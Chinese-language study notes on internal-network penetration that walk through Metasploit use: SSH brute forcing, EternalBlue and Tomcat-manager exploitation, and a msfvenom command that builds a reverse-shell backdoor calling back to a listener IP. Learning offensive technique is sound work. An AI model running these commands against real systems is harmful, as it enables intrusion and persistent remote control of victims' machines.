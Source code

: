 ## 0x01 内网渗透流程

- 一般都是针对Windows系统进行内网渗透

1. 外部打点（外部攻击，如网站渗透getshell）
2. 内网信息收集（系统信息，网络信息，密码，防火墙信息等）
3. 提权
4. 横向渗透（同网段渗透）
5. 纵向渗透（跨网段渗透，如同一主机同时有两个网络环境的ip）
6. 权限维持
7. 痕迹清理

- 免杀

- 域渗透

  

## 0x02 外部打点

### 一、漏洞挖掘

1. 历史漏洞（RCE）
2. 0day
3. 手动挖掘owasp top 10

### 二、漏洞利用

1. 上传webshell

2. 反弹shell

3. 渗透测试框架 远控后门（Metasploit、CobaltStrike）

   

### 三、Metasploit

#### 1. Metasploit概述

- metasploit是一个集成的渗透测试框架

- 官网：https://metasploit.com

- github项目地址：https://github.com/rapid7/metasploit-framework

- 官方文档：https://docs.rapid7.com/metasploit/

- 官方视频：https://www.youtube.com/c/MetasploitR7

- 安装：

  wget https://downloads.metasploit.com/data/releases/metasploit-latest-linux-x64-installer.run
  chmod +x metasploit-latest-linux-x64-installer.run
  ./metasploit-latest-linux-x64-installer.run

#### 2. 基础构成

- modules
  - auxiliary:辅助模块,辅助渗透（端口扫描、登录密码爆破、漏洞验证等)
  - exploits:漏洞利用模块，包含主流的漏洞利用脚本，通常是对某些可能存在漏洞的目标进行漏洞利用。命名规则:操作系统/各种应用协议分类
  - payloads:攻击载荷，主要是攻击成功后在目标机器执行的代码，比如反弹shell的代码
  - post:后渗透阶段模块，漏洞利用成功获得meterpreter之后，向目标发送的一些功能性指令，如:提权等
  - encoders:编码器模块，主要包含各种编码工具，对payload进行编码加密，以便绕过入侵检测和过滤系统
  - evasion:躲避模块,用来生成免杀payload
  - nops:由于IDS/IPs会检查数据包中不规则的数据，在某些情况下，比如针对溢出攻击，某些特殊滑行字符串(NOPS x90x90...)则会因为被拦截而导致攻击失效。

- db

#### 3. 基础使用

1. msfdb init（初始化数据库，开启5432端口）
2. msfconsole（进入msf命令行接口）

### 4. 使用流程

1. 使用模块

   - 可以使用search查找相关模块

   - use 模块序号/模块全称
    ![image-20220704111546717](../img/内网渗透-基础\image-20220704111546717.png)

2. 配置模块

   - show options或options查看配置

   - required是yes代表是必填项，若为空则需要手动配置

   - 选择相应配置项set配置参数
     ![image-20220704112314465](../img/内网渗透-基础\image-20220704112314465.png)

3. 运行模块
   - run或exploit

### 5. 使用示例

- 爆破ssh服务

  1. search ssh scanner查找相关模块

     ![image-20220704115740588](../img/内网渗透-基础/image-20220704115740588.png)

  2. use使用模块

     use auxiliary/scanner/ssh/ssh_login

  3. option查看配置选项

     ![image-20220704115817591](../img/内网渗透-基础/image-20220704115817591.png)

  4. set配置参数

  5. run运行模块

- 爆破ftp
  1. search ftp auxilary scanner

- 永恒之蓝

  smb服务445端口，ms17_010

  1）使用模块

  - search ms_17_010
  - use 0

  2）配置模块

  - module options：
    - rhost 目标地址
  - payload options：
    - meterpreter  msf后渗透模块
    - windows/x64/meterpreter/reverse_tcp 系统版本/架构/协作的操作/操作方法
    - lhost 监听机地址
    - lport 监听端口
  - exploit target ：自动

  3）使用模块

  - run/exploit

- tomcat后台部署漏洞

  - search tomcat
  - use exploit/multi/http/tomcat_mgr_upload
  - show options
  - set rhost
  - set rport
  - set httpusername tomcat
  - set httppassword tomcat
  - set lhost
  - set lport
  - run


### 6. msfconsole 和 meterpreter相关命令

   - exit
   - background 当前会话放到后台
   - sessions 列出后台会话
   - sessions [ID] 进入会话
   - \>meterpreter shell 获取目标命令行
   - \>meterpreter getuid 获取当前用户信息
   - \>cmd chcp 65001 修改编码为utf-8
   - \>msf6 jobs 列出所有job
   - \>msf6 job -K 关闭所有
   - \>msf6 job -k  ID 关闭指定job

### 7. msfvenom 生成远控木马

1. 生成后门

​	msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.136 lport=12345 -f exe -o 123.exe

2. 攻击机开启监听

​	正常开启：

1. msfconsole
2. use exploit/multi/handler
3. set payload windows/x64/meterpreter/reverse_tcp
4. set lhost xxx.xxx.xxx.xxx
5. set lport xxxx
6. run

​	快捷开启：hander -p windows/x64/meterpreter/reverse_tcp -H 192.168.10.77 -P 12345

3. 靶机运行后门，上线meterpreter



